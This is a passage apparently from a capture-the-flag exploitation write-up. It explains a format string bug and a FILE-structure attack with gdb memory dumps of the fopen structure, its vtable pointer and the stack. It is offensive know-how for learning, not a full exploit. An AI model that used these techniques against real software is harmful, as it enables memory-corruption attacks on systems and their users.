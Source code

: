 Now that we have the necessary leaks , let us return from our Menu Driven subroutine and execute the rest of the code.

```py
    ret()
```

From here , we need help of our old friend , yes you guessed it right , **gdb**.

This is how the file structure created by fopen looks like.

```sh
gdb-peda$ 
0x555555758070:	0x00000000fbad2c84	0x00005555557582a0 
0x555555758080:	0x00005555557582a0	0x00005555557582a0
0x555555758090:	0x00005555557582a0	0x0000555555758439
0x5555557580a0:	0x00005555557592a0	0x00005555557582a0
0x5555557580b0:	0x00005555557592a0	0x0000000000000000
0x5555557580c0:	0x0000000000000000	0x0000000000000000
0x5555557580d0:	0x0000000000000000	0x00007ffff7dd0680
0x5555557580e0:	0x0000000000000003	0x0000000000000000
0x5555557580f0:	0x0000000000000000	0x0000555555758150
0x555555758100:	0xffffffffffffffff	0x0000000000000000
0x555555758110:	0x0000555555758160	0x0000000000000000
0x555555758120:	0x0000000000000000	0x0000000000000000
0x555555758130:	0x00000000ffffffff	0x0000000000000000
0x555555758140:	0x0000000000000000	0x00007ffff7dcc2a0
0x555555758150:	0x0000000000000000	0x0000000000000000
0x555555758160:	0x0000000000000000	0x0000000000000000
0x555555758170:	0x0000000000000000	0x0000000000000000
0x555555758180:	0x0000000000000000	0x0000000000000000
0x555555758190:	0x0000000000000000	0x0000000000000000
0x5555557581a0:	0x0000000000000000	0x0000000000000000
0x5555557581b0:	0x0000000000000000	0x0000000000000000
0x5555557581c0:	0x0000000000000000	0x0000000000000000
0x5555557581d0:	0x0000000000000000	0x0000000000000000
0x5555557581e0:	0x0000000000000000	0x0000000000000000
0x5555557581f0:	0x0000000000000000	0x0000000000000000
0x555555758200:	0x0000000000000000	0x0000000000000000
0x555555758210:	0x0000000000000000	0x0000000000000000
0x555555758220:	0x0000000000000000	0x0000000000000000
0x555555758230:	0x0000000000000000	0x0000000000000000
0x555555758240:	0x0000000000000000	0x0000000000000000
0x555555758250:	0x0000000000000000	0x0000000000000000
0x555555758260:	0x0000000000000000	0x0000000000000000
0x555555758270:	0x0000000000000000	0x0000000000000000
0x555555758280:	0x0000000000000000	0x0000000000000000
0x555555758290:	0x00007ffff7dcbd60 -> vtable	0x0000000000001011
0x5555557582a0:	0x37343132203a6449	0x2d0a393935313834 -> all of user data

```

Also , let us analyze stack at the instance of triggering the format string bug.

```sh

0000| 0x7fffffffec90 --> 0x7fffffffecf0 --> 0x555555758070 --> 0xfbad2c84 -> Interestingly , the pointer to file structure is also stored here. 
0008| 0x7fffffffec98 --> 0x7fffffffed00 --> 0x0 
0016| 0x7fffffffeca0 --> 0xa55756080 
0024| 0x7fffffffeca8 --> 0x7ffff7ff 
0032| 0x7fffffffecb0 --> 0x666564636261 ('abcdef') -> our input buf
0040| 0x7fffffffecb8 --> 0x0 
0048| 0x7fffffffecc0 --> 0x202e724d ('Mr. ')
0056| 0x7fffffffecc8 --> 0x0 
0064| 0x7fffffffecd0 --> 0x7fff00000000 
0072| 0x7fffffffecd8 --> 0x2c18ea94720bb00 
```